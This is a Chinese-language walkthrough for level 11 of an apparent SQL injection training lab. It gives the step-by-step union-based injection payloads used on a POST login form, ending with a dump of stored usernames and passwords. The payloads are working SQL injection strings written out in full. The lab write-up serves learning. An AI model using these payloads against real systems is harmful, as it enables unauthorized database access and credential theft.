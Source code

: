 ```yaml
---
title: Less - 11
date: 2023-03-14T12:51:15Z
lastmod: 2023-03-14T13:23:35Z
---
```


# Less - 11

---

# 通关教程

---

## 1、判断注入点

---

我们利用hackbar抓到POST包后，像前面的关卡一样先在admin的位置试试有没有SQL注入漏洞，发现当在Post data的位置输入

```html
uname=admin'&passwd=admin&submit=Submit
```

时，系统报错，证明有SQL注入漏洞，并且为字符型注入，由于hackbar插件无法post数据，这里使用的是burpsuite

​![image](assets/image-20230314131359-p7f9fal.png)​

## 2、判断字段数

---

```html
uname=ad'+order+by+2#&passwd=admin&submit=Submit // 无报错
uname=ad'+order+by+3#&passwd=admin&submit=Submit // 报错
```

​![image](assets/image-20230314131606-q8r967l.png)​

判断字段数为2

---

## 3、确定回显位置

---

```html
uname=ad'+union+select+1,2#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314131756-uqfwsz6.png)​

---

## 4、查看当前数据库及当前用户

---

```html
uname=ad'+union+select+user(),database()#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314131858-y3ajj50.png)​

---

## 5、查看security库下的所有表

---

```html
uname=ad'+union+select+1,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema='security')#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314132033-6k6i1lq.png)​

---

## 6、查看users表下的所有字段

---

```html
uname=ad'+union+select+1,(select+group_concat(column_name)+from+information_schema.columns+where+table_name='users')#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314132208-d0qy251.png)​

---

## 7、查看username和password字段的值

---

```html
uname=ad'+union+select+1,(select+group_concat(username,password)+from+security.users)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314132322-qtd3q33.png)​
